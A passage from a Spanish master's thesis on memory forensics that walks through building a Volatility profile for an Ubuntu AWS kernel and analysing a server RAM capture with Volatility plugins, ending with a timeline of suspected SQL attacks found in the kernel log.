**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

               

## 3.3. Creación de perfil para volatility.

### **3.3.0. Introducción de creación de perfil de volatility.**

Crear un perfil de volatility es fundamental para poder extraer la información de los datos de la ram.

En el repositorio de github de volatility podemos observar perfiles relativos a windows, pero ninguno relativo al sistema operativo linux. Si ejecutamos el comando `sudo python2.7 vol.py --info` tenemos la siguiente respuesta relativo a perfiles:

#### [3.3.0. Comando 001.](#84003003000001-comando-sudo-python27-volpy---info)

Como ya hemos observado en la sección anterior, el kernel del la memoria RAM a analizar es del tipo `linux version 4.15.0-1021.21-aws`, además, se puede en el comando citado que este perfil no aparece en volatility por defecto , basándome en las páginas web de referencias 12 y 13, procederé a crear un perfil adaptado para esta memoria RAM. Estas acciones, deben de ser una práctica común para capturas de memoria de sistemas operativos del tipo Linux, por lo que se ha considerado recomendable introducirlo en el cuerpo del TFM, además que ya forma parte del trabajo de investigación.

#### [3.3.0. Referencia 012.](#85012-creación-de-perfil-en-volatility-hotfixed42) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [3.3.0. Referencia 013.](#85013-creación-de-perfil-en-volatility-bytelearning) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [3.3.0. Referencia 014.](#85013-creación-de-perfil-en-volatility-bytelearning)

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram)**

---

                        

### **3.3.1. Creación de la máquina virtual, búsqueda en cache e instalación del kernel relativo al perfil a crear.**

Vamos crear una VM para generar una base con el mismo kernel que el servidor auditado. Lo configuraremos según la siguiente imagen, finalmente procederemos a su arranque para su instalación.

#### [3.3.1. Imagen 001.](#82003003001001-caracter%C3%ADsticas-vm-perfil-volatility)

Procedemos a ejecutar el comando `hostnamectl` para ver las características que ahora mismo tenemos instalada en la VM.

#### [3.3.1. Imagen 002.](#82003003001002-características-vm-kernel)

Como se observa en la imagen anterior, este servidor utiliza el kernel ***Linux 4.15.0-213-generic***, por lo que para obtener el perfil de la RAM, tendremos que instalar un kernel distinto.

Procedemos a arrancar la VM, una vez realizado el login, procedemos a ejecutar el comando `sudo apt-cache search linux-image | grep 4.15.0-1021`.

Este comando realiza dos acciones, por un lado `sudo apt-cache search linux-image`, y por otro `grep 4.15.0-1021`. Gracias al  "pipe" o "|", pasaremos la respuesta del primera acción como entrada de la segunda acción.. Es una parte fundamental de la filosofía de Unix que permite a los usuarios combinar múltiples comandos sencillos para realizar tareas más complejas. En nuestro caso:

**sudo apt-cache search linux-image.**

  - Esta parte del comando busca en la caché de APT (Advanced Package Tool) todos los paquetes cuyos nombres o descripciones contienen la cadena "linux-image". Los paquetes "linux-image" generalmente se refieren a imágenes del kernel de Linux para diferentes versiones y configuraciones.

**| grep 4.15.0-1021.**

  - La salida del primer comando se canaliza (|) al comando grep, que filtra y muestra solo las líneas que contienen la cadena "4.15.0-1021". En este contexto, "4.15.0-1021" probablemente se refiere a una versión específica del kernel de Linux.

Al combinar estos dos comandos, `sudo apt-cache search linux-image | grep 4.15.0-1021-aws` efectivamente busca y lista todas las versiones de las imágenes del kernel de Linux disponibles en los repositorios que coincidan con la versión específica "4.15.0-1021". Este comando es útil para identificar si una versión específica del kernel está disponible para la instalación o actualización en el sistema.

Se adjunta pantallazo de la respuesta por parte de la consola.

#### [3.3.1. Imagen 003.](#82003003001003-búsqueda-kernel-4150-1021-aws)

Como podemos observar en la imagen observada, el primer kernel que buscamos exactamente aparece como `linux-image-4.15.0-1021-aws`, esto significa que es un kernel disponible para ser instalado en el sistema operativo, por lo que procederemos a su instalación.

A continuación, procedemos a instalarla en el sistema, para ello ejecutamos el comando `sudo apt-get install linux-image-4.15.0-1021-aws`.

#### [3.3.1. Imagen 004.](#82003003001004-instalación-kernel-4150-1021-aws)

El comando `sudo apt-get install linux-image-4.15.0-2021-aws` en Ubuntu o sistemas basados en Debian, se utiliza para instalar una versión específica del kernel de Linux, diseñada para ambientes Amazon Web Services (**<u style='color:red'>AWS</u>**). Al usar `sudo`, el comando se ejecuta con privilegios de superusuario, necesarios para instalar software a nivel de sistema. `apt-get install` es parte del sistema de gestión de paquetes APT, y se usa aquí para instalar el paquete `linux-image-4.15.0-2021-aws`. Este paquete contiene una imagen del kernel de Linux, la cual está optimizada para correr en servidores **<u style='color:red'>AWS</u>**, indicando que este kernel podría tener configuraciones o parches específicos para un rendimiento mejorado o características adicionales en esa plataforma. **Al instalar un nuevo kernel, es importante reiniciar el sistema para que empiece a usar esta nueva versión.** Para comprobar lo mencionado anteriormente, procederemos a realizar de nuevo el comando `hostnamectl`.

#### [3.3.1. Imagen 005.](#82003003001005-probando-de-nuevo-hostnamectl)

Como hemos indicado anteriormente, es necesario reiniciar el sistema para que el kernel instalado se utilice en el Sistema operativo, procederemos a ejecutar el comando `sudo reboot now` para realizar esta acción.

#### [3.3.1. Imagen 006.](#82003003001006-reiniciando-server)

Una vez reiniciado el sistema, procedemos a ejecutar el comando `hostnamectl` o `uname - r` para comprobar que el comando se ha ejecutado correctamente.

#### [3.3.1. Imagen 007.](#82003003001007-comprobando-kernel)

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram)**

---

                

### **3.3.2. Instalación y creación del perfil de volatility.**

Una vez comprobado, procederemos a la instalación de volatility en el servidor de ubuntu.

Primero de todo instalaremos los paquetes relativos a `dwarfdump` ya que el servidor no los tiene instalado por defecto.

#### [3.3.2. Imagen 001.](#82003003002001-instalación-de-dwarfdump)

Seguiremos los pasos ya indicados en el [Apartado 3.2](#32-sistema-operativo-de-la-memoria-ram-analizada):

#### [3.3.2. Video 001.](#83003002001-video-de-instalación-de-volatility-en-ubuntu)

#### [3.3.2. Imagen 002.](#82003003002002-volatility-instalado)

Ahora, se procede a instalar dwarfdum, para poder hacer el modules.dwarf que mas adelante se explica. Una vez hemos realizado la instalación procedemos a crear el perfil de volatility.

Para ello entraremos en la carpeta `/home/jrodg85/volatility/tools/linux`, una vez allí dentro ejecutaremos el comando `make`. Con ello, generaremos el archivo **`modules.dwarf`**. Se puede ver en las siguientes images como se ha generado tras ejecutar el comando make.

#### [3.3.2. Imagen 003.](#82003003002003-ls-homejrodg85volatilitytoolslinux) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [3.3.2. Imagen 004.](#82003003002004-make-homejrodg85volatilitytoolslinux)

Ahora procederemos a nombrar el perfil de volatility para ello vamos a generar un archivo zip, este archivo, como norma general, usaremos los valores de `lsb_release -si` y `uname -r`. De esta manera nombraremos de manera correcta el perfil de volatility para después no tengamos problemas al importarlo dentro de la máquina donde estamos realizando la investigación.

#### [3.3.2. Imagen 005.](#82003003002005-comandos-comprobación-kernel)

Este archivo zip, debe de contener los dos archivos necesarios de perfil:

**modules.dwarf**

- Este archivo se genera a partir de los módulos del kernel de Linux y contiene información sobre las estructuras de datos del kernel. Es creado usando, en nuestro caso, la herramienta dwarfdump sobre módulos del kernel compilados con símbolos de depuración (debugging symbols). El archivo module.dwarf es crucial porque contiene los offsets y las definiciones de las estructuras de datos internas del kernel, lo que permite a Volatility entender cómo están organizados los datos en el volcado de memoria.

**/boot/System.map-4.15.0-1021-aws**

- Este archivo es un mapa de símbolos del kernel. Proporciona una lista de todas las funciones y variables en el kernel, junto con sus direcciones de memoria. Cada versión del kernel de Linux tiene su propio archivo System.map, y el archivo específico para una versión dada del kernel (en tu caso, 4.15.0-1021-aws) es necesario para analizar un volcado de memoria tomado de un sistema que ejecuta esa versión del kernel. Este archivo es esencial para que Volatility pueda mapear las direcciones de memoria en el volcado a nombres de funciones y variables específicas en el kernel.

Para la generación del perfil, procederemos, desde `/home/jrodg85` a ejecutar el comando para crear un archivo .zip `sudo zip linux$(lsb_release -si)_$(uname -r)_profile.zip /home/jrodg85/volatility/tools/linux/module.dwarf /boot/System.map-4.15.0-1021-aws`

#### [3.3.2. Imagen 006.](#82003003002006-perfil-creado) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [3.3.2. Imagen 007.](#82003003002007-ls-a-la-carpeta-del-perfil)

Para una aclaración de cualquier duda relativo a la elaboración de la elaboración de este servidor y las acciones realizadas en ella, se ha extraído el history al completo para que cualquier persona pueda realizar los mismos pasos que he realizado para la creación del perfil.

#### [3.3.2. comando 001](#84003003002001-comando-sudo-history--usbhistorialtxt)

Una vez creado el perfil, tenemos que sacar el perfil del servidor para después pegarlo dentro de la máquina una donde realizaremos el análisis. para ello procederemos a montar un usb dentro del servidor del ubuntu, posteriormente copiamos el archivo, `/home/jrodg85/volatility/volatility/plugins/overlays/linuxUbuntu_4.15.0-1021-aws_profile.zip`, y lo pegamos en el **<u style='color:red'>USB</u>**. En nuestro caso, hemos el **<u style='color:red'>USB</u>** lo hemos montado en `/home/jrodg85/usb/`

#### [3.3.2. Imagen 008.](#82003003002008-perfil-copiado-a-usb)

Posteriormente, procedemos a insertar en la VM de Ubuntu con Volatility en la carpeta en la carpeta `/home/jrodg85/volatility/volatility/plugins/overlays/linux` tal y como se muestra en la siguiente imagen.

#### [3.3.2. Imagen 009.](#82003003002009-perfil-copiado-entorno-volatility)

para comprobar que esta correctamente creado el perfil procedemos a ejecutar el comando `sudo python2.7 vol.py --info`, donde se podrá observar que se ha creado correctamente el perfil.

#### [3.3.2. Imagen 010.](#82003003002010-perfil-creado-en-entorno-volatility)

Para probar el correcto funcionamiento del perfil, procederemos a hacer la captura de la cpu con el siguiente comando `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_cpuinfo`. Esta información la usaremos mas adelante, en este caso es solo para prueba.

#### [3.3.2. Imagen 011.](#82003003002011-prueba-funcionamiento-perfil)

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram) &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Volver al Índice General.](#índice-general)**

---

      

## 3.4. Datos de interés de la captura de la memoria RAM.

### **3.4.0. Introducción de datos de interés de la captura de la memoria RAM.**

En el anexo Creación perfil ubuntu **<u style='color:red'>AWS</u>**, hemos realizado una guía para crear el perfil de Linux **<u style='color:red'>AWS</u>** que detectado durante el análisis del sistema operativo.

Una vez creado el perfil de linuxUbuntu_4.15.0-1021-aws procederemos a hacer un pslist para listar todas las aplicaciones que estaban ejecutándose en el momento de la captura.

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram)**

---

                                  

### **3.4.1. Linux_cpuinfo.**

Para comprobar que el perfil funciona, vamos a comenzar a comprobar cual es el **<u style='color:red'>CPU</u>** que usa el sistema.

Para ello, situados en `/home/jrodg85/volatility$` ejecutaremos `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_cpuinfo`.

#### [3.4.1. Imagen 001.](#82003004001001-linux-cpuinfo)

Al comprobar que el perfil funciona, obtenemos que solo hay un procesador de marca GenuineIntel modelo Intel(R) Xeon(R) **<u style='color:red'>CPU</u>** E5-2676 v3 que tiene una frecuencia de 2.4Ghz.

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram)**

---

                               

### **3.4.2. Linux_banner.**

Otro dato de interés es la versión del kernel y la información de distribución de Linux. Esto es útil para identificar la versión específica del sistema operativo que se estaba ejecutando. Para ello se ejecuta el comando `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_banner`, dando la siguiente imagen como respuesta

#### [3.4.2. Imagen 001.](#82003004002001-linux-banner)

Un análisis de Información del Kernel de Linux es la siguiente:

- Versión del Kernel.
    - La captura de memoria analizada corresponde a un sistema que ejecuta la versión 4.15.0-1021-aws del kernel de Linux. Este dato era ya conocido en el TFM.
- Ambiente **<u style='color:red'>AWS</u>**.
    - El sufijo **<u style='color:red'>aws</u>** sugiere que esta versión del kernel está optimizada o diseñada para ejecutarse en Amazon Web Services, una plataforma de cloud computing.
- Construcción y Compilador.
    - La captura incluye detalles de la compilación del kernel, como el compilador utilizado (gcc version 7.3.0) y la configuración específica de Ubuntu (Ubuntu 7.3.0-16ubuntu3).
- Número de Compilación y Fecha.
    - Se muestra el número de compilación (#21-Ubuntu SMP) y la fecha (Tue Aug 28 10:23:07 UTC 2018), que proporcionan un contexto sobre cuándo y cómo se construyó esta versión del kernel.

Esta respuesta básicamente te indica la versión exacta del sistema operativo Linux que estaba corriendo en la máquina de la cual se tomó la captura de memoria. Es un paso esencial en el análisis forense, ya que te permite seleccionar o validar el perfil correcto en Volatility para un análisis más detallado y preciso de la captura de memoria.

Aunque este dato ya lo sabíamos anteriormente, la salida muestra que la versión del kernel es 4.15.0-1021-aws. Esta es una versión específica para las instancias de Ubuntu en **<u style='color:red'>AWS</u>**. **La fecha de compilación (Tue Aug 28 10:23:07 UTC 2018)**.

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram)**

---

           

### **3.4.3. Linux_mount.**

A continuación, se va a proceder a enumerar los sistemas de archivos montados en el momento del volcado de memoria. Esto puede proporcionar información sobre las particiones y los sistemas de archivos utilizados. Para ello, ejecutaremos el comando `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_mount`. Se procede a adjuntar una captura de pantalla del comando y del comando utilizado en este caso. Además se ha elaborado una tabla detallada en el comando para su comprensión.

#### [3.4.3. Imagen 001.](#82003004003001-linux_mount)

#### [3.4.3. Comando 001.](#84003004003001-comando-sudo-python27-volpy---profilelinuxlinuxubuntu_4_15_0-1021-aws_profilex64--f-homejrodg85server_rammem-linux_mount)

Teniendo en cuenta que es un servidor con un kernel de Amazon Web Services. Se puede realizar el siguiente análisis.

- cgroup (/sys/fs/cgroup/rdma):
    - Usado para control de recursos y aislamiento de grupos de procesos. Las opciones indican un enfoque en seguridad y rendimiento.
- tmpfs (/sys/fs/cgroup):
    - Sistema de archivos temporal en memoria, utilizado para almacenamiento de corta duración y rápido acceso.
- /dev/xvda1 (/):
    - Sistema de archivos principal, ext4 proporciona robustez y mejor manejo de grandes archivos.
- proc (/bus):
    - Usado para acceder a información del sistema y procesos en ejecución.
- pstore (/sys/fs/pstore):
    - Almacenamiento persistente para registros del núcleo y datos de diagnóstico.
- fusectl (/sys/fs/fuse/connections):
    - Interfaz para sistemas de archivos FUSE, permite a usuarios no privilegiados crear sus propios sistemas de archivos.
- lxcfs (/var/lib/lxcfs):
    - Proporciona un sistema de archivos virtual para contenedores LXC.
- /dev/loop0 (/snap/core/5328):
    - Usado para montar imágenes de Snap, squashfs es eficiente en espacio y de solo lectura.
- udev (/dev):
    - Sistema de archivos para dispositivos, gestionado dinámicamente.
- cgroup (/sys/fs/cgroup/unified):
    - Nueva versión de cgroup para mejor gestión de recursos.

Los restantes puntos de montaje siguen patrones similares en cuanto a tipos y opciones, enfocándose en la seguridad (nosuid, nodev, noexec), rendimiento (relatime), y tipo de acceso (ro, rw). Los sistemas de archivos como tmpfs, squashfs, y cgroup son comunes en entornos Linux y son utilizados para propósitos específicos como almacenamiento temporal, montaje de paquetes de software, y gestión de recursos del sistema.

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram)**

---

                                             

### **3.4.4. Linux_memmap.**

Se procede ahora a realizar un mapa de memoria del sistema, para asi, entender cómo está organizada la memoria en el servidor. Para ello ejecutaremos el comando `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_memmap > /home/jrodg85/informe-memmap.txt`. Lo hemos pasado la salida a un archivo .txt debido a la gran cantidad de datos que maneja este comando (375 Mb).

#### [3.4.4. Imagen 001.](#82003004004001-linux_memmap)

Tras un trabajo de limpieza de datos, de un archivo de 4519734 lineas a solo 200 lineas, y posteriormente a 109 lineas, ya que las direcciones de memoria ultima de cada aplicación era la misma, por lo que también ha sido desechado, podemos asi obtener de esta manera todos los procesos que estaban ocurriendo dentro del servidor.

#### [3.4.4. Comando 001.](#84003004004001-comando-sudo-python27-volpy---profilelinuxlinuxubuntu_4_15_0-1021-aws_profilex64--f-homejrodg85server_rammem-linux_memmap--homejrodg85informe-memmaptxt)

#### [3.3.4. Referencia 015.](#85015-informe-memmap)

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram)**

---

                         

### **3.4.5. Linux_iomem.**

A continuación, se procede a obtener información relativa a la memoria de entrada/salida (I/O) en un sistema Linux. para ello usaremos el comando `linux_iomem` Este comando es similar a la herramienta iomem en Linux, la cual proporciona información sobre el mapeo de la memoria de entrada/salida del kernel. El comando linux_iomem en Volatility analiza un volcado de memoria de un sistema Linux y extrae información sobre cómo el kernel ha mapeado la memoria física para dispositivos de entrada/salida. Por lo anteriormente expuesto y ya realizado en las anteriores secciones, se colige que el comando a utilizar es `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_iomem`. Se adjunta en el TFM pantallazo del mismo y captura del comando, localizados en los siguientes enlaces.

#### [3.4.5. Imagen 001.](#82003004005001-linux-iomem)

#### [3.4.5. Comando 001.](#84003004005001-comando-sudo-python27-volpy---profilelinuxlinuxubuntu_4_15_0-1021-aws_profilex64--f-homejrodg85server_rammem-linux_iomem)

Un pequeño análisis explicativo de la respuesta del comando iomem es la siguiente:

**System RAM (0x1000 - 0x9DFFF y 0x100000 - 0x3FFFFFFF).**

Estas áreas representan la memoria RAM del sistema. La primera sección es una pequeña porción al inicio de la memoria, y la segunda es la parte principal de la memoria RAM.

**Reserved (0x9E000 - 0x9FFFF y 0xE0000 - 0xFFFFF).**

Estas son áreas de memoria reservadas, posiblemente por el BIOS o por el sistema operativo para funciones específicas.

**PCI Bus 0000:00 (0xA0000 - 0xBFFFF y 0xF0000000 - 0xFBFFFFFF).**

Estas áreas están asignadas a los buses PCI del sistema, utilizadas para la comunicación con dispositivos de hardware conectados a través de estos buses.

**Video ROM (0xC0000 - 0xC8BFF).**

Esta es la memoria reservada para el ROM de la tarjeta de video, que contiene el firmware básico para la tarjeta gráfica.

**System ROM (0xF0000 - 0xFFFFF).**

Esta sección es para el ROM del sistema, donde reside el BIOS o firmware básico de la máquina.

**Kernel code, data, and bss (0x31C00000 - 0x33516FFF).**

Estas áreas son específicas para el núcleo del sistema operativo, incluyendo el código del kernel, los datos y el segmento 'bss' (bloque de inicio sin asignar), que se utiliza para las variables globales no inicializadas.

**IOAPIC, HPET, Local APIC (0xFEC00000 - 0xFEE00FFF).**

Estos son componentes de hardware relacionados con la gestión de interrupciones y temporizadores de alta precisión.

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram)**

---

                                           

### **3.4.6. Linux_dmesg.**

Se procede a recabar una información mas completa de la memoria RAM, hablamos del comando `linux_dmesg`, este comando puede sernos de gran utilidad por las siguientes razones:

1. **Extracción de Mensajes del Kernel.**

Linux_dmesg se utiliza para extraer los mensajes del buffer de registro del kernel, conocido como dmesg, de un volcado de memoria de Linux. Este buffer contiene mensajes de diagnóstico y de depuración que son emitidos por el kernel de Linux.

Los mensajes extraídos pueden proporcionar información valiosa durante un análisis forense. Pueden incluir detalles sobre el hardware del sistema, errores del kernel, información de carga de módulos del kernel y otros mensajes de diagnóstico que son útiles para entender el estado y las acciones del sistema en el momento del volcado de la memoria.

2. Investigación de Incidentes de Seguridad.

`linux_dmesg` puede ayudar a identificar actividades sospechosas o maliciosas, como la carga de módulos del kernel no autorizados o errores relacionados con intentos de explotación.

3. Uso en Conjunto con Otros Comandos.

A menudo, linux_dmesg se utiliza en combinación con otros comandos de Volatility diseñados para el análisis de sistemas Linux, como `linux_pslist` para listar procesos, `linux_netstat` para ver conexiones de red, entre otros, proporcionando una vista más completa del estado del sistema. En los próximos apartados del TFM, realizaremos estos comandos para obtener una vision global del lo ocurrido.

Por tanto en este caso, como muy presumiblemente va a resultar un comando bastante extenso, ejecutaremos el comando el cual la salida se extraerá a un documento de texto para ser integrado en el anexo de [Extracto de comandos utilizados.](#84-extracto-de-comandos-utilizados). El comando a utilizar es `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_dmesg > /home/jrodg85/informe-linux_dmesg.txt`. Se adjunta imagen y comando del mismo

#### [3.4.6. Imagen 001.](#82003004006001-linux_dmesg)

#### [3.4.6. Comando 001.](#84003004006001-comando-sudo-python27-volpy---profilelinuxlinuxubuntu_4_15_0-1021-aws_profilex64--f-homejrodg85server_rammem-linux_dmesg--homejrodg85informe-linux_dmesgtxt)

#### [3.4.6. Referencia 016.](#85016-informe-dmesg)

Un resumen de interés para el análisis forense de estos datos es la siguiente:

#### [3.4.6. Comando 002.](#84003004006002-resumen-del-comando-sudo-python27-volpy---profilelinuxlinuxubuntu_4_15_0-1021-aws_profilex64--f-homejrodg85server_rammem-linux_dmesg--homejrodg85informe-linux_dmesgtxt)

#### [3.4.6. Referencia 017.](#85017-security-elinuxorg)

Los puntos destacables son los siguientes, algunos de estos datos se pueden encontrar con mayor detalle en el comando citado anteriormente.

1. Establecimiento del tiempo origen de tiempos donde el 28 de Agosto de 2018 a las 10:23:07 UTC el cual arranca el servidor. Se considera que el tiempo [0.0] es el origen de tiempos del sistema marcado en microsegundos.
    - Linux version 4.15.0-1021-aws (buildd@lcy01-amd64-001) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #21-Ubuntu SMP Tue Aug 28 10:23:07 UTC 2018 (Ubuntu 4.15.0-1021.21-aws 4.15.18)
2. Se descarta información relativo al arranque del servidor. Se mantiene la relevante la cual se explica a continuación.
    - El Servidor es una Máquina virtual.
        - Hypervisor detected: Xen HVM.
    - Memoria disponible y su distribución.
        - Memory: 983488K/1048180K available (12300K kernel code, 2391K rwdata, 3908K rodata, 2372K init, 2376K bss, 64692K reserved, 0K cma-reserved).
    - Seguridad, ver referencia 17.
        - selinux.
        - SMACK64.
        - SMACK64EXEC.
        - SMACK64TRANSMUTE.
        - SMACK64MMAP.
        - apparmor.
        - ima.
        - capability.
3. EL RCT no coincide con el timestamp!!!, puede ser una coordinación de tiempos. el 28 de agosto de 2018 a las 10:27:31 UTC.
    - RTC time: 12:04:38, date: 12/21/18
4. Reinicio del Servidor.  1 de septiembre de 2018 a las 09:53:22 UTC.
5. Reinicio del servicio Journal 1 de septiembre de 2018 a las 09:59:10 UTC.
6. Inicio de denegación de servicio SQL 3 de mayo de 2019 a las 20:10:29 UTC.
7. Denegación de servicio SQL, 7 de mayo de 2019 a las 05:53:01 UTC.
8. Denegación de servicio SQL, 10 de mayo de 2019 a las 06:39:15.104327 UTC.
9. Denegación de servicio SQL, 12 de mayo de 2019 a las 12:02:32.671468 UTC.
10. 13 de mayo de 2019 a las 05:27:58 UTC, posible brecha y entrada no deseada en el sistema a traves de un ataque SQL. Se reemplaza un perfil en el sistema.
11. Posible ataque al servidor el 13 de mayo de 2019 a las 07:20:17 UTC por SQL.
12. Posible ataque al servidor el 14 de mayo de 2019 a las 21:55:10 UTC por SQL.
20. 19 de junio de 2019 a las 20:51:55.627714 UTC. Posible parcheo de la vulnerabilidad.

**[Volver al Índice del capítulo 3. Análisis de la memoria RAM.](#índice-del-capítulo-3-análisis-de-la-memoria-ram)**

---

      

### **3.4.7. Linux_bash.**

Por ultimo y no menos importante, ya que considero que es un comando fundamenta para saber que acciones se han realizado a través de la terminal, es el comando `linux_bash`, ya que permite ver que se ha realizado exactamente dentro del sistema, no obtendremos sus respuestas, pero se sabe que comandos se han ejecutado, y por tanto sus consecuencias. El comando a utilizar en este caso es `sudo python2.7 vol.py --profile=LinuxlinuxUbuntu_4_15_0-1021-aws_profilex64 -f '/home/jrodg85/Server_RAM.mem' linux_bash`. En este caso se adjunta una captura completa de los comandos ejecutados.

#### [3.4.7. Comando 001.](#84003004007001-comando-sudo-python27-volpy---profilelinuxlinuxubuntu_4_15_0-1021-aws_profilex64--f-homejrodg85server_rammem-linux_bash)

Relativo al código mostrado, cabe destacar que las fechas que marca la maquina como las calculadas en el apartado anterior, son totalmente erróneas entre sí, ya que por `linux_dsmeg` calculamos fechas de mayo de 2019, sin embarco este comando data de 3 de enero de 2019, por otro lado, no creo que una persona humana, bot o proceso automatizado, escriba tan de seguido con esas fechas que marca el comando. Por lo que en principio parece descartable las fechas que indica este comando. Cabe destacar que posiblemente haya comandos del administrador relativos a la configuración y del atacante. A continuación se detallan comando importantes de las acciones realizadas que pueden afectar a la seguridad.

#### [3.4.7. Referencia 018.](#85018-package-python3-certbot-apache-210-2)

- Intenta una conexión con el usuario root al servidor **<u style='color:red'>MySQL</u>**.
- Se sitúa dentro del directorio de **<u style='color:red'>Apache</u>**.
- Edita el fichero debian.cnf del servidor **<u style='color:red'>MySQL</u>**.
- Muestra todos los procesos referentes a **<u style='color:red'>MySQL</u>**.
- Muestra las últimas líneas del archivo Access.log.1.
- se mueve de directorio situándose en /var/html/www, este directorio suele ser por defecto donde se alojan las páginas web.
